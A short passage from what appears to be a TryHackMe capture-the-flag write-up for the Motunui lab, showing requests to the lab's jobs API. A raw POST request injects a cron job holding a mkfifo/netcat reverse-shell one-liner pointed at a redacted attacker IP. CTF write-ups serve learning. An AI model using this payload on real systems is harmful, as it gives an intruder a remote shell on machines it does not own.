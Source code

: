 <p align="center">{"hash":"--------"}</p>

<img width="1351" height="120" alt="image" src="https://github.com/user-attachments/assets/0ee70357-156c-4cd0-b84f-72d2c0c6290c" />

<br>
<br>
<br>

```bash
:~/Motunui# curl -v http://api.motunui.thm:3000/v2/jobs -X GET -H 'Content-Type: application/json' -d '{"hash":"--------"}'
```

<img width="1325" height="106" alt="image" src="https://github.com/user-attachments/assets/ebd0cee6-4de0-4cff-9ab9-3c429837c6d7" />

<br>
<br>
<br>
<h1 align="center">Delivery & Execution & Initial Foothold<a id='10'></a></h1>


<img width="836" height="262" alt="image" src="https://github.com/user-attachments/assets/e6500bda-600b-4ae6-b479-b9cfd8edc153" />

<br>
<br>
<br>

```bash
POST /v2/jobs HTTP/1.1
Host: api.motunui.thm:3000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded

{
  "hash": "--------",
	"job": "* * * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.xxx.xx.xxx 9001 >/tmp/f"
}
```

<img width="1142" height="423" alt="image" src="https://github.com/user-attachments/assets/9b03b563-5b31-4ce7-9d54-f22496163651" />

<br>
<br>
<br>

<img width="843" height="291" alt="image" src="https://github.com/user-attachments/assets/83e5ed0a-c842-442a-9674-8495dc3eceed" />

